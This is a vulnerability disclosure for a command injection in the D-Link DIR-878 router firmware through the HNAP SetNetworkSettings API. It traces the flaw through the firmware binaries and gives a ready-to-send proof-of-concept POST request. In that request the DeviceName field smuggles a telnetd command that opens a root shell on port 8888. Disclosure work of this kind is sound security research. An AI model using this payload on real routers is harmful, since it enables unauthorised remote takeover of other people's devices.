






# D-Link Vulnerability

Vendor:D-Link

Product:DIR_878

Version:DIR_878_FW1.30B08_Hotfix_02(Download Link:https://support.dlink.com/ProductInfo.aspx?m=DIR-878)

Type:Command Execution

Author:Jiaqian Peng,Huizhao Wang

Institution:pengjiaqian@iie.ac.cn,wanghuizhao@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in D-link Technology router with firmware which was released recently.A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request. This occurs when any HNAP API function triggers a call to the `twsystem` function with untrusted input from the request body for the `SetNetworkSettings` API function (need authentication).

**Remote Command Execution**

In `prog.cgi` binary:

In `SetNetworkSettings` function,`DeviceName` is directly passed by the attacker.After that, call the function nvram_safe_set to store this input.

<div  align="center"></div>

Then, we configure vlan, which will call the function `SetVLANSettings`.

In `rc` binary:

<div  align="center"></div>

Then,`start_lan_up` -> `start_dev_mgt_link`.

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

There will be multiple ways to call the start_dev_mgt_link function (vulnerability trigger point) in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `DeviceName` as **;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 41A76B62FAB2A659CC98E8F9988EB5CC 1638684065941
Content-Length: 662
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Network.html
Cookie: uid=gN7NGFrG

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.0.1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>;telnetd -l /bin/sh -p 8888 -b 0.0.0.0;</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>100</IPRangeStart>
	<IPRangeEnd>199</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

<div  align="center"></div>

Then,I turn on the VLAN function of the router.

<div  align="center"></div>


## Result

This will triger the `start_dev_mgt_link` method, and then get a shell!

<div  align="center"></div>
